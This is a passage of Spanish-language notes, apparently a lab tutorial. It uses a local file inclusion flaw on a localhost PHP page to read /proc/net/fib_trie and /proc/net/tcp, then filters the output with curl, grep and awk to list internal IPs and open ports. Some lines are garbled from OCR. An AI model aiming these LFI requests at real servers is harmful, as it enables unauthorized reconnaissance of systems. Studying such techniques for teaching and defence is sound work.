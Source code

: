     la ejecutamos

    #sudo chmod +x encuentrame.sh
    /var/www/html  ./encuentrame.sh

    #podemos ver en “proc/sched_debug” lo que se esta ejecutando hay como atacante podes ejecutar una “
    http://localhost/example.php?FILE=/proc/net/fib_trie
    #vemos montones de direccion “IP”
    sudo curl -s "http://localhost/example.php?FILE=/proc/net/fib_trie"
    #enumeramos a ver q interfaces de red tiene o “IP” ETC:
    #vamos filtrar por has local:
    sudo curl -s "http://localhost/example.php?FILE=/proc/net/fib_trie" | grep -i "host local"

    sudo curl -s "http://localhost/example.php?FILE=/proc/net/fib_trie" | grep -i "host local" -B 1

    #expreciones reguleres filtremos con la “IP” en dijitos
    sudo curl -s "http://localhost/example.php?FILE=/proc/net/fib_trie" | grep -i "host local" -B
      1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}'

    #SACAMOS LO QUE SE REPITE
    sudo curl -s "http://localhost/example.php?FILE=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u


    #ip interna de la maquina
    /var/www/html  iwconfig | awk '{print $1}'

    /var/www/html  iwconfig 21 | awk '{print $1}'

    /var/www/html  iwconfig 21 | awk '{print $1}' | sed '/^\s*$/d'

    #aora vemos las interfaces de red
    /var/www/html  ifconfig

    #otra cosa que podemos ver en ‘LFI’
    http://localhost/example.php?FILE=/proc/net/tcp
    #lo podemos hacer con “CURL”
    /var/www/html  sudo curl -s "http://localhost/example.php?FILE=/proc/net/tcp"

    sudo curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}'

    sudo curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address"

    sudo curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}' | grep -v
    "local_address" | awk '{print $2}' FS=":"

    sudo curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u

    #vemos que es un puerto corriendo en el servidor

    $:sudo python
      Type "help", "copyright", "credits" or "license" for more information.
      0xA992
      43410
    sudo for port in $(curl -s "http://localhost/example.php?FILE=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u); do echo "contenido: $port"; done
    el contenido: A992
    el contenido: D8FE

